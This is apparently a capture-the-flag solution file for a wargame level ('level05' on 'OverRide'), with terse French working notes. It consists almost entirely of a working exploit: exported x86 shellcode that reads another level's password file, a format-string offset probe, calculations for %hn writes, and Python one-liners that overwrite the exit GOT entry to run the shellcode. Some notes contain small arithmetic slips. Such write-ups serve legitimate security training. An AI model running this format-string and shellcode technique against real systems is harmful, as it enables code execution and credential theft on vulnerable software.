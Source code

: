 export exploit=$'\x31\xc0\x31\xdb\x31\xc9\x31\xd2\xeb\x32\x5b\xb0\x05\x31\xc9\xcd\x80\x89\xc6\xeb\x06\xb0\x01\x31\xdb\xcd\x80\x89\xf3\xb0\x03\x83\xec\x01\x8d\x0c\x24\xb2\x01\xcd\x80\x31\xdb\x39\xc3\x74\xe6\xb0\x04\xb3\x01\xb2\x01\xcd\x80\x83\xc4\x01\xeb\xdf\xe8\xc9\xff\xff\xff/home/users/level06/.pass'


exit    | 0x8048370
        | 0x80497e0

exploit : 0xffffdec6 | 0xffffded0 || 0xffffdf0b | 0xffffdf15
decallage de 10

level05@OverRide:~$ ./level05
DDDD  %x %x %x %x %x %x %x %x %x %x %x %x %x
dddd  64 f7fcfac0 f7ec3add ffffd68f ffffd68e 0 ffffffff ffffd714 f7fdb000 64646464 78252020 20782520 25207825

octets poids faible : 0xdec6 = 57030 - 8 = 57022
octets poids faible : 0xded0 = 57040 - 8 = 57032

octets poids faible : 0xdf0b = 57099 - 8 = 57091
octets poids faible : 0xded0 = 57109 - 8 = 57101


octets poids fort : 0xffff = 65535 - 57022 = 8513
octets poids fort : 0xffff = 65535 - 57032 = 8503

octets poids fort : 0xffff = 65535 - 57091 = 8444
octets poids fort : 0xffff = 65535 - 57101 = 8434

octets poids fort : 0xffff = 65535 - 57109 = 8426

python -c 'print "\xe0\x97\x04\x08" + "\xe2\x97\x04\x08" + "%57022x" + "%10$hn" + "%8513x" + "%11$hn"' | ./level05
python -c 'print "\xe0\x97\x04\x08" + "\xe2\x97\x04\x08" + "%57032x" + "%10$hn" + "%8503x" + "%11$hn"' | ./level05
python -c 'print "\xe0\x97\x04\x08" + "\xe2\x97\x04\x08" + "%57091x" + "%10$hn" + "%8444x" + "%11$hn"' | ./level05
python -c 'print "\xe0\x97\x04\x08" + "\xe2\x97\x04\x08" + "%57101x" + "%10$hn" + "%8434x" + "%11$hn"' | ./level05

python -c 'print "\xe0\x97\x04\x08" + "\xe2\x97\x04\x08" + "%57101x" + "%10$hn" + "%8434x" + "%11$hn"' | ./level05
